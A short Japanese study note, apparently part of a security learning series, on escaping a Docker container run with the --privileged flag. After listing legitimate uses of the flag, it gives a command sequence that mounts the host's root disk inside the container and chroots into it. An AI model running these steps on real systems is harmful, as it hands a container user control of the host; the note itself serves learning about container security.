 # step1

`--privileged`フラグを利用したコンテナ脱出

Seccomp、AppArmor、SELinuxなどのセキュリティ機能を無効化するフラグ。

## `--privileged` のユースケース

- Docker in Docker(DinD)
- ハードウェアデバイスへのアクセス
- ホストのカーネルパラメーターの変更

## 脱出

コンテナないで実行する

```sh
# install fdisk
apt-get update && apt-get install -y fdisk
# fdiskでホストのディスクを確認
fdisk -l
# or
lsblk
# マウントポイントをコンテナ内に作成
mkdir /host_fs
# ホストのルートファイルシステムをコンテナ内にマウント
mount /dev/sda1 /host_fs
# ホストのルートファイルシステムにchrootする
chroot /host_fs
```
